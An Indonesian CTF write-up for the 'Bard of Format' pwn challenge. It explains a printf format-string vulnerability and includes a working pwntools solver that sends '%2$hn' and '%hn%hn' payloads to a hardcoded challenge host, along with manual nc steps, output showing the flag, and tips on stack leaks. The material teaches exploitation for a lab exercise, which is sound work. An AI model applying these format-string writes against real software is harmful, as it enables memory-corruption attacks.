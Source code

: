 ```yaml
---
title: "LappungCTF Vol 2.0 - Bard of Format RPG (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "writeup", "lappungctf"]
summary: "Write-up LappungCTF Vol 2.0 - Bard of Format RPG "
image: "/blog/LappungCTFVol2.0-BardofFormatRPG/thumb.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Ini write-up saya untuk challenge **Bard of Format** dari LappungCTF. Challenge ini adalah game RPG terminal kecil di mana kita lawan dua boss: **Golem** dulu, lalu **Dragon**. Menu utamanya ada: *Attack*, *Guard*, *Skill (Bard Song)*, *Heal*, dan *Quit*. Tujuan saya: dapatin `flag.txt`.

Setelah ngulik binary (decompile pake Ghidra/IDA), sata menemukan bahwa input yang diketik pas memilih *Bard Song* langsung dipakai sebagai **format string** ke `printf()` tanpa proteksi — alias format-string vulnerability. Karena program juga ngirim pointer yang mengarah ke field HP boss sebagai argumen variadik `printf`, kita bisa pake `%hn` untuk nulis 0 ke alamat HP dan langsung nge-zero HP boss. Simpel dan elegan.

---

## Ringkasan exploit (satu kalimat)
Charge Bard Song dengan dua kali `Guard`, lalu kirim format string yang menulis `0` ke alamat HP boss: `%2$hn` buat Golem, dan `%hn%hn` buat Dragon — setelah HP jadi 0, program buka `flag.txt` dan cetak flag.

---

## Bagian teknis (apa yang saya lihat di reversing)

Saya decompile biner dan menemukan panggilan `printf` berbeda tergantung fase:

- **Fase Golem** (fase 1) memanggil:
```c
printf(local_238, 0, puVar8);
```
Jadi variadik argumen adalah `0` (argumen pertama) dan `puVar8` (argumen kedua) — `puVar8` ini menunjuk ke struktur boss, dimana offset pertama adalah HP boss. Karena argumen ke-2 adalah pointer ke HP, kita bisa merujuk ke `2$` di format string. Mengirim `%2$hn` akan menulis 2 byte (low 16-bit) bernilai jumlah karakter yang sudah dicetak hingga titik itu. Karena kita tidak mencetak apa-apa sebelum itu, jumlah karakter = 0 → `%2$hn` menulis 0 ke low-16bit HP. Karena HP Golem = 150 (< 65536), menulis low-16bit ke 0 menyebabkan HP = 0.

- **Fase Dragon** (fase 2) memanggil:
```c
printf(local_238, (char*)puVar8 + 2, puVar8);
```
Sekarang ada dua pointer: satu menunjuk ke `puVar8 + 2` (upper halfword), dan satu ke `puVar8` (lower halfword). Dengan mengirim payload seperti `%hn%hn` kita menulis 0 ke alamat pertama (upper half) lalu 0 ke alamat kedua (lower half) sehingga 32-bit HP menjadi 0.

Catatan penting: `Bard Song` hanya bisa dipakai setelah pemain **survive two full turns** — artinya kita harus menahan serangan boss dua kali; praktisnya `Guard` dua kali sudah cukup.

---

## Kenapa `%hn` bukan `%n`?
- `%n` menulis ukuran `int`/`long` tergantung platform (4/8 byte). `%hn` menulis 2 byte (16-bit). Karena program memberikan pointer ke halfword (atau kita hanya butuh mengubah low/high 16-bit saja), `%hn` adalah yang tepat dan lebih aman untuk manipulasi halfword.
- Kita menulis `0`, jadi nggak perlu padding rumit. Kalau mau nulis nilai lain, kita biasanya pakai padding: `"%1234x%2$hn"` untuk menulis 1234 ke alamat.

---

## Script otomatis (PoC) — `solver.py`
Ini yang saya pake dan berhasil. Pastikan terinstal `pwntools`.

```python
#!/usr/bin/env python3
from pwn import *

HOST = "43.157.205.115"
PORT = 9006

def charge_skill(io):
    # Lakukan Guard dua kali supaya Bard Song siap
    for _ in range(2):
        io.recvuntil(b"> ")
        io.sendline(b"2")  # Guard

def bard(io, payload: bytes):
    io.recvuntil(b"> ")
    io.sendline(b"3")   # Skill (Bard Song)
    io.recvuntil(b"Bard Song:")
    io.sendline(payload)

def main():
    context.log_level = "info"
    io = remote(HOST, PORT)

    # Phase 1: kill Golem
    charge_skill(io)
    bard(io, b"%2$hn")   # tulis 0 ke low-16bit HP

    # Phase 2: kill Dragon
    charge_skill(io)
    bard(io, b"%hn%hn")  # nulis 0 ke upper lalu lower half -> HP = 0

    data = io.recvall(timeout=5)
    print(data.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

Jalankan:
```bash
pip install pwntools
python3 solver.py
```

Output yang saya dapatkan ketika menjalankan solver:
```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/bard$ python3 solver.py
[+] Opening connection to 43.157.205.115 on port 9006: Done
[+] Receiving all data: Done (372B)
[*] Closed connection to 43.157.205.115 port 9006
 ♪ The echoes of your song ripple across the battlefield.

╔══════════════════════════╗
║   👑 The boss collapses! ║
║     You are victorious.  ║
╚══════════════════════════╝
FLAG: LappungCTF{a_b4rd_s0n9_L0v3_rPg_b4ttL3_with_m3loDy_f0rm4t_stRr1nG}
```

---

## Langkah manual (kalau mau pake `nc`)

1. `nc 43.157.205.115 9006`
2. Saat muncul prompt `> `: ketik `2` lalu Enter (Guard). Ulangi sekali lagi jadi total dua Guard.
3. Setelah itu ketik `3` lalu Enter (Skill).
4. Saat muncul `Bard Song:`, ketik `%2$hn` lalu Enter — Golem akan langsung mati / berganti ke Dragon.
5. Ulangi langkah 2–4 untuk Dragon, tetapi pada step 4 kirim `%hn%hn`.
6. Kalau semuanya sukses, flag bakal tercetak.

---

## Penjelasan langkah demi langkah (apa yang terjadi di memory)

- Program meletakkan beberapa argumen ke stack saat memanggil `printf`.
- Di fase Golem argumen terlihat seperti: `printf(fmt, 0, boss_ptr)`. Ini berarti argumen posisi ke-2 (`%2$...`) adalah alamat boss_ptr.
- `%2$hn` membaca jumlah karakter yang dicetak sejauh ini (0), lalu menulis 2-byte (16-bit) ke alamat `boss_ptr`. Itu men-set bagian bawah dari HP menjadi 0 → cukup untuk mengurangi HP 150 jadi 0.
- Di fase Dragon program sengaja memanggil `printf(fmt, boss_ptr+2, boss_ptr)` — menyediakan dua pointer ke HP (upper dan lower half). Mengirim `%hn%hn` menulis nilai (jumlah printed chars, masih 0) ke kedua alamat berurutan, sehingga seluruh 32-bit HP = 0.
- Setelah HP menjadi 0, game akan membuka `flag.txt` dan mencetak isinya.

---

## Troubleshooting & tips

- Kalau koneksi putus: tambahkan retry di script atau naikkan timeout `io = remote(HOST, PORT, timeout=10)`.
- Jika server punya proteksi rate-limit, jalankan perlahan atau pakai retries.
- Kalau payload lain bekerja (mis. server berbeda arg order), coba eksplorasi positional specifiers: `%1$`, `%2$`, `%3$`, dst. Gunakan `%p` untuk leak stack jika perlu.
- Jangan lupa untuk "survive two full turns" sebelum pakai skill — kalau belum charge, program akan menolak.

---



